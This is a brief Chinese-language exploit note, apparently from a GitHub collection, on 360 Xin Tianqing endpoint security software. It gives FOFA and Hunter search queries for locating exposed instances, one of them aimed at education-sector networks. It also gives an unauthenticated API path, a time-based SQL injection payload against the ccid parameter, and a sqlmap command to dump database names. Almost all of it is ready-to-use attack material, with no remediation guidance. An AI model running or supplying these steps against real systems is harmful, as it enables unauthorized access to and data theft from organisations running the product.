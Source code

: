 ## 360天擎 - 未授权与sql注入

## FOFA语法
```title="360新天擎"```


## 鹰图
```web.title="360新天擎"&& ip.isp="教育"```

## 漏洞复现

### 未授权漏洞
```路由后拼接/api/dbstat/gettablessize```


### sql注入漏洞
比较推荐的方式先测试是否存在数据库信息泄露，存在的话大概率存在SQL注入
```
路由后拼接/api/dp/rptsvcsyncpoint?ccid=1

{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1';SELECT PG_SLEEP(5)--
```
## sqlmap
python .\sqlmap.py --batch -dbs -u https://{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1
